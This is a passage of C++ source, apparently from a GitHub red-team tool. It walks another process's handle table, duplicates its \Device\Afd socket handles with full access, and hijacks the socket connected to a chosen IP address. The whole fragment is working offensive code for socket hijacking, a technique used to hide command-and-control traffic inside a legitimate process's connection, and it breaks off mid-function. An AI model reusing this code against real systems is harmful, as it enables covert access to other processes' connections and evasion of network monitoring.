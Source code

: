 ```cpp

	printf("[+] Found [%d] handles in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

	// Iterate 
	for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

		// Check if it is the desired type of handle
		if (handleInfo->Handles[i].ObjectTypeNumber == 0x24) {

			SYSTEM_HANDLE handle = handleInfo->Handles[i];
			HANDLE dupHandle = NULL;
			POBJECT_NAME_INFORMATION objectNameInfo;

			// Duplicate handle
			NtDuplicateObject(hProc, (HANDLE)handle.Handle, GetCurrentProcess(), &dupHandle, PROCESS_ALL_ACCESS, FALSE, DUPLICATE_SAME_ACCESS);
			objectNameInfo = (POBJECT_NAME_INFORMATION)malloc(0x1000);

			// Get handle info
			NtQueryObject(dupHandle, ObjectNameInformation, objectNameInfo, 0x1000, &returnLength);

			// Narow the search checking if the name length is correct (len(\Device\Afd) == 11 * 2)
			if (objectNameInfo->Name.Length == 22) {
				printf("[-] Testing %d of %d\n", i, handleInfo->HandleCount);

				// Check if it ends in "Afd"
				LPWSTR needle = (LPWSTR)malloc(8);
				memcpy(needle, objectNameInfo->Name.Buffer + 8, 6);
				if (needle[0] == 'A' && needle[1] == 'f' && needle[2] == 'd') {

					// We got a candidate
					printf("\t[*] \\Device\\Afd found at %d!\n", i);

					// Try to duplicate the socket
					status = WSADuplicateSocketW((SOCKET)dupHandle, GetCurrentProcessId(), &wsaProtocolInfo);
					if (status != 0) {
						printf("\t\t[X] Error duplicating socket!\n");
						free(needle);
						free(objectNameInfo);
						CloseHandle(dupHandle);
						continue;
					}

					// We got it?
					targetSocket = WSASocket(wsaProtocolInfo.iAddressFamily, wsaProtocolInfo.iSocketType, wsaProtocolInfo.iProtocol, &wsaProtocolInfo, 0, WSA_FLAG_OVERLAPPED);
					if (targetSocket != INVALID_SOCKET) {
						struct sockaddr_in sockaddr;
						DWORD len;
						len = sizeof(SOCKADDR_IN);

						// It this the socket?
						if (getpeername(targetSocket, (SOCKADDR*)&sockaddr, (int*)&len) == 0) {
							if (strcmp(inet_ntoa(sockaddr.sin_addr), dstIP) == 0) {
								printf("\t[*] Duplicated socket (%s)\n", inet_ntoa(sockaddr.sin_addr));
								free(needle);
								free(objectNameInfo);
								return targetSocket;
							}
						}
```